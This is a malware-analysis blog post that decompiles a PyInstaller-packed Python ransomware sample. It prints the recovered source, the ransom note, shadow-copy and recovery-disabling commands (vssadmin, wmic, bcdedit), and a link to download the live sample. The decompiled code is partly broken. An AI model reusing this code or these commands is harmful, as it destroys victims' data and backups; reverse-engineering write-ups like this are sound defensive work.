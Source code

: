 ```yaml
---
title: "Decoding a Pyinstaller ransomware sample"
classes: wide
header:
  teaser: /assets/images/malwareanalysis/pyinstaller/image-1.png
ribbon: DodgerBlue
description: "Decoding a ransomware sample made in Python, step by step"
categories:
  - Malware Analysis
toc: true
---
```

**Note:** if you want to download this ransomware sample for educational purposes, feel free to do so by clicking here: [password: infected](https://cdn.discordapp.com/attachments/1019271202851799130/1363587212566073536/pw_infected.zip?ex=6806930d&is=6805418d&hm=ee7f8b331b4d5db5e5b927b54f169933de6baee5c84042fec220b4b7f52aa34d&)

# Introduction

Recently, I've came across this Python ransomware sample:
![Encryptor.exe ransomware](/assets/images/malwareanalysis/pyinstaller/image.png)

First, here's the ransom note:
![ransomware note](/assets/images/malwareanalysis/pyinstaller/note.png)

Now, let's start examining the .exe file statically.
# Understanding the file
Here's the `Detect It Easy` output:
![Detect it easy](/assets/images/malwareanalysis/pyinstaller/image-1.png)

We can clearly see that the program is a python-compiled executable, by examining the hexadecimal artifacts:

![alt text](/assets/images/malwareanalysis/pyinstaller/image-2.png)

Now, let's jump to reversing the file! 

We will use the Python script [pyinstxtractor](https://github.com/extremecoders-re/pyinstxtractor) to extract and analyze the contents of this pyinstaller generated executable file:
# Unpacking pyinstaller resources
![Analyzing the file](/assets/images/malwareanalysis/pyinstaller/image-3.png)

We received the output from pyinstxtractor:
```
C:\Users\WDAGUtilityAccount\Downloads\analyzing>pyinstxtractor.py Encryptor.exe
[+] Processing Encryptor.exe
[+] Pyinstaller version: 2.1+
[+] Python version: 3.13
[+] Length of package: 21092376 bytes
[+] Found 120 files in CArchive
[+] Beginning extraction...please standby
[+] Possible entry point: pyiboot01_bootstrap.pyc
[+] Possible entry point: pyi_rth_inspect.pyc
[+] Possible entry point: pyi_rth_cryptography_openssl.pyc
[+] Possible entry point: pyi_rth_pywintypes.pyc
[+] Possible entry point: pyi_rth_pythoncom.pyc
[+] Possible entry point: pyi_rth_pkgres.pyc
[+] Possible entry point: pyi_rth_multiprocessing.pyc
[+] Possible entry point: pyi_rth_setuptools.pyc
[+] Possible entry point: pyi_rth_pkgutil.pyc
[+] Possible entry point: Encryptor.pyc
[+] Found 609 files in PYZ archive
[+] Successfully extracted pyinstaller archive: Encryptor.exe

```

You can now use a python decompiler on the pyc files within the extracted directory.

So, let's go to the newly generated `Encrypted.exe_extracted` folder:

![Unpacked libraries](/assets/images/malwareanalysis/pyinstaller/image-4.png)

This ransomware sample clearly uses a lot of cryptographic libraries.

This `Encrypted.pyc` file is one of the files in the `Encrypted.exe_extracted` folder:

![Bytecode](/assets/images/malwareanalysis/pyinstaller/image-5.png)

Now, we need to decompile the `Encrypted.pyc` file we received from pyinstxtractor. For that, we'll use the web interface of this library called [pylingual](https://www.pylingual.io/), that decompiles `.pyc` files containing the compiled bytecode of the ransomware's main Python source code:

Pylingual gave us a great reconstruction of the source code:
# Reconstructed source code
```py

# Decompiled with PyLingual (https://pylingual.io)
# Internal filename: Encryptor.py
# Bytecode version: 3.13.0rc3 (3571)
# Source timestamp: 1970-01-01 00:00:00 UTC (0)

from pathlib import Path
from PIL import Image, ImageDraw, ImageFont
import ctypes
import string
import subprocess
import shutil
import base64
import sys
from win32com.client import Dispatch
from win32api import GetSystemMetrics
from PIL import Image, ImageDraw, ImageFont
import random
import os
import secrets
from cryptography.hazmat.primitives.asymmetric import padding
from cryptography.hazmat.primitives import serialization, hashes
from cryptography.hazmat.primitives.ciphers import Cipher, algorithms, modes
from cryptography.hazmat.backends import default_backend
PUBLIC_KEY_PEM = '-----BEGIN PUBLIC KEY-----\nMIGfMA0GCSqGSIb3DQEBAQUAA4GNADCBiQKBgQDzOPVPDhQAR/xYjucI5SdCugXS\nG9ZFk5C1It85dOvh+fmD1UNXs5h3R28hUtThRARNh2ar3ADlGGWHIKwoV4P5hZx4\nq2Cg4odgWrf7a5eskCu3fI4eCTKBSItuEs4nFrjdu6HDXnzVHDkxrkWY96mmoZ9R\n0zG8Kyo6ofuge9p2IwIDAQAB\n-----END PUBLIC KEY-----'
AES_KEY_PATH = 'C:\\ProgramData\\02dq34jROu.key'
USER_PATH = os.path.expanduser('~')
TARGET_DIRS = ['Downloads', 'Music', 'Documents', 'Desktop', 'Videos', 'Pictures']
EXTENSION = '.02dq34jROu'

def _34EYLBSVGLRLCR7DM4():
    return serialization.load_pem_public_key(PUBLIC_KEY_PEM.encode(), backend=default_backend())

def _JXOPHO2CGWP23DL9L1():
    aes_key = secrets.token_bytes(32)
    public_key = _34EYLBSVGLRLCR7DM4()
    encrypted_aes_key = public_key.encrypt(aes_key, padding.OAEP(mgf=padding.MGF1(algorithm=hashes.SHA256()), algorithm=hashes.SHA256(), label=None))
    with open(AES_KEY_PATH, 'wb') as key_file:
        key_file.write(encrypted_aes_key)
        return aes_key

def _0HAHESD3QA17F3OWF7():
    if not os.path.exists(AES_KEY_PATH):
        return _JXOPHO2CGWP23DL9L1()

def _SSJAVGM86I7CGWDH9W(file_path, aes_key):
    if not file_path.endswith(EXTENSION) and (not file_path.endswith('.exe')) and (not file_path.endswith('.dll')) and file_path.endswith('.lnk'):
        pass  # postinserted
    return None

def _LLIRBGOWCAMFAVUTAK():
    global aes_key  # inserted
    contentof = '-- Lyrix\n\nYour data has been encrypted and stolen. The only way to recover it is by contacting us.\nDo not attempt to use third-party recovery tools — doing so may permanently damage your files.\n\nTo prove that decryption is possible, we are willing to decrypt 2 random files for free.\n\nYou can contact us at:\nTDVP7boZDZDE4GYWA3qW@protonmail.com\n\nWARNING!\nWe have also downloaded a portion of your data. If you do not pay, we will release it publicly.\n\nID: KVNR2HLU3N9W5BQCPU\n    '
    aes_key = _0HAHESD3QA17F3OWF7()
    print('AES key already exists. Skipping key generation.') if not aes_key else None
    appdata_dir = os.path.join(USER_PATH, 'AppData').lower()
    for root, dirs, files in os.walk(USER_PATH):
        root_normalized = os.path.abspath(root).lower()
        if root_normalized.startswith(appdata_dir):
            continue
        readme_path = os.path.join(root, 'README.txt')
        try:
            with open(readme_path, 'w', encoding='utf-8') as readme_file:
                readme_file.write(contentof)
                    print(f'Created README.txt in: {root}')
                    for file in files:
                        file_path = os.path.join(root, file)
                        try:
                            _SSJAVGM86I7CGWDH9W(file_path, aes_key)
                            print(f'File [{file_path}] encrypted')
    except Exception as e:
        print(f'[WARNING] Failed to create README.txt in {root}: {e}')
    except Exception as e:
        print(f'[WARNING] Cannot Encrypt file {file_path}: {e}')
if __name__ == '__main__':
    _LLIRBGOWCAMFAVUTAK()
subprocess.Popen('cmd.exe /c vssadmin delete shadows /all /quiet & wmic shadowcopy delete & bcdedit /set {default} bootstatuspolicy ignoreallfailures & bcdedit /set {default} recoveryenabled no', shell=True, stdout=subprocess.DEVNULL, stderr=subprocess.DEVNULL, stdin=subprocess.DEVNULL, creationflags=subprocess.CREATE_NO_WINDOW)
extensions_to_list = ['.exe', '.dll', '.lnk']

def list_files(drive_path, extensions):
    for root, dirs, files in os.walk(drive_path, topdown=True):
        for file in files:
            if any((file.endswith(ext) for ext in extensions)):
                continue
            file_path = os.path.join(root, file)
            _SSJAVGM86I7CGWDH9W(file_path, aes_key)
for drive_letter in string.ascii_uppercase:
    drive_path = f'{drive_letter}:/'
    if drive_letter not in ['C'] and os.path.exists(drive_path):
        pass  # postinserted
    else:  # inserted
        try:
            list_files(drive_path, extensions_to_list)
except PermissionError:
    print(f'Access denied to {drive_path}')

```
Great! So now we managed to get the literal source code itself.

Let's explain what the code does step by step:

# Source code explanation

Here are the key variables:
- `PUBLIC_KEY_PEM`: The attacker's RSA public key, hardcoded into the malware.
- `AES_KEY_PATH`: Where the victim’s encrypted AES key will be stored: `C:\ProgramData\02dq34jROu.key`. `02dq34jROu` is likely a generated ID for the key
- `TARGET_DIRS`: Standard folders to attack first (Downloads, Documents, Desktop, etc.).
- `EXTENSION`: Files will get renamed with the randomly generated ID `.02dq34jROu` after encryption (this code doesn't show the full renaming though).

The malware also uses `subprocess.Popen(...)` commands to deletes all system shadow copies and disables recovery options:

- `vssadmin delete shadows /all /quiet`
- `wmic shadowcopy delete`
- `bcdedit /set {default} bootstatuspolicy ignoreallfailures`
- `bcdedit /set {default} recoveryenabled no`

This makes it harder to recover files without paying.

`list_files(drive_path, extensions)`

Walks through a drive letter (like D:/, E:/).

The encryption routine works like this:

- For every file, if file is **NOT** .exe, .dll, or .lnk, it tries to encrypt it.
- For every drive letter A: to Z, i**f the drive exists and is NOT C:** (system drive), encrypt files on it.

This ransomware has some bugs and problems, and is likely very ameatur-ish. 

